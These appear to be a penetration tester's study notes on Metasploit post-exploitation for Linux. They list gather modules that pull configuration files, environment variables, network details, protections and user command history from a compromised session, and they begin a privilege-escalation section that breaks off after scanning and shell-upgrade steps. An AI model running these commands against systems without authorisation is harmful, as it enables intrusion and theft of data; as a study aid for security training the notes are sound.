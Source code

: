           
        
        - `search enum_configs` && `use post/linux/gather/enum_configs` ⇒ to get all linux target configration file
            - `set session <session number >`
        
          
        
        - `search env platform:linux` && `use post/multi/gather/env` ⇒ to get all system environment settings || environment variables
            - `set session <session number>`
        
          
        
        - `search enum_network` && `use post/linux/gather/enum_network` ⇒ to enum or gather network information
            - `set session <session number>`
        
          
        
        - `search enum_protections` && `use post/linux/gather/enum_protections` ⇒ to identify the system security protaction or to identify any security features or modules that may have been enabled , like ==( smep ,smap , selinux , pax …etc )== * notes*
            - `set session <session number >`
        
          
        
        - `search enum_system` && `use post/linux/gather/enum_system` ⇒ gathering system and user information
            - `set session <session number >`
        
          
        
        - `search checkcontainer` && `use post/linux/gather/checkcontainer` ⇒ to check if the target system linux is on container or not
            
            - `set session <session number >`
            
              
            
        - `search checkvm` && `use post/linux/gather/checkvm` ⇒ to check if the target system linux is on vertual machine or not
            
            - `set session <session number >`
            
              
            
        - `search enum_user_history` && `use post/linux/gather/enum_user_history` ⇒ to gathering the user history for all the user accounts on the system (command history || log ).
            - `set session <session number >`
        
    
      
    

  

- ==_Linux Privilege Escalation: Exploiting A Vulnerable Program_==

> privilege escalation on linux depend on the version of the linux kernal running on target system as well as the distribution release version .

- ==_Linux Privilege Escalation: Exploiting A Vulnerable Program_==
    
    - `service postgersql start` && `msfconsole` && `workspace -a linux_mod` ==_( to easy search for evrey yhing using loot )_==
    - `db_nmap -sS -sV -O <targrt ip >` ⇒ to do some port scanning ti identify what services are running
    - After we exploit the services and get a meterpreter session
    - if wwe have a shell session ⇒ `session -u <session number >` (to upgrade it to meterpreter session )
    - `cat /etc/*issuse` ⇒ to see the version of linux kernal and the env version
    